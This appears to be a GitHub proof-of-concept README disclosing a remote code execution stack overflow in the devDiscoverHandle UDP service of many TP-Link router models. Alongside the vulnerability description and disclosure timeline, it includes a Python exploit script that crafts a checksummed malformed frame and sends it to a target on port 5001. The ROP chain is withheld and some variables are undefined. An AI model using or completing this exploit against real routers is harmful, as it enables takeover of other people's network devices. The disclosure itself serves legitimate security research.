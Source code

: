 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc**

```
import sys
import struct
import requests
from pwn import *
def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

magic = '\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
pad2 = '  ' + gadget.ljust(602-8-0x1d*0) + gadget1
tmp = '\x00\x05'+p16(len(pad2))+pad2
# gadget1 and gadget is ROPchain, here we don't show it.
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload = magic + checksum + p16(len(tmp)) + '\x00\x00' + tmp

udpsever=socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 2)
udpsever.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
udpsever.bind(('', MCAST_PORT))
mreq = struct.pack('4sl', socket.inet_aton(MCAST_GRP), socket.INADDR_ANY)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)

udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload,(sys.argv[1],5001))
udp.close()
```

## Timeline
2020.11.7 show in TFC conntest

2020.11.15 report to CVE and TP-Link
